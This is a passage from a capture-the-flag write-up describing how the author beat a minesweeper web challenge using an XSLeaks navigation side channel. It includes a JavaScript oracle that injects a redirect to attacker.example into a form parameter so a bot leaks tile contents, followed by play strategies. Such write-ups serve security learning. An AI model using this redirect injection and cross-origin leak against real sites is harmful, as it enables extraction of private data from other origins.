 This application allows us to redirect the bot to `https://attacker.example/entry/<tile>`,
triggering the XSLeaks exploit, which will (eventually) print out "safe" or "bomb".

Finally, since sending these requests manually would be tiring, we can declare a
JavaScript function in our browser's console that simply takes the index of the tile
we want to reveal and sends the appropriate request:

```js
const oracle = (tile) => fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: `something&redirect=//attacker.example/entry/${tile}`,
  }),
});
```

Running `oracle(0)` should, within about 10 seconds, tell us whether the tile
on the top-left corner is a bomb, printing this information to to the terminal
running our Node.js application.

### Play Strategies

As you might recall, in order to get the flag we need to get 20 perfect games,
which would be easy to do using the oracle in combination with some automated
solver.
However, I was too lazy to implement one, so I ended up playing the 20 games by
hand, which took way too long, but was definitely faster than trying to
implement a solver for it.
Here are some strategies that I adopted:

- First, I made a drawing of the board with the tile numbers, which made it
  easier to use the oracle on the correct tile without having to count each time;
- Second, it is possible to restart the board whenever we want, by calling the
  `/newboard` GET endpoint, without it incurring a loss, which is useful for when
  there is a 50/50 and we are out of oracles (recall that we have 5 per game);
- Third, I always start with the top-left corner and restart the board if it is
  a bomb, maximising the number of available oracles throughout the game;
- Fourth, it is important to keep in mind the aforementioned peculiarities
  of the board generation function, which help on certain 50/50 situations.

Using these strategies, it is quite easy to get the 20 wins, even if it takes
a while.
Below is a sample gameplay:

{{ img(caption="Sample gameplay animation using the oracle for tiles 0, 6, 42, 45 and 40", path="./using-oracle.gif") }}

After repeating the process 20 times, we get the flag on the home page:

{{ img(caption="The homepage showing the flag after winning 20 out of 20 games", path="./flag-view.png") }}

## Final Remarks

Solving this challenge makes us take a deep dive into navigation-related
side channels on the web, inferring information that would otherwise
not be possible to extract.
Even with all the sandboxing built into the browser, it is still not
enough to properly isolate different origins from each other.

While I hit many road blocks while trying to solve this challenge, it ended
up being very fun, and I definitely have deepened my knowledge in XSLeaks.
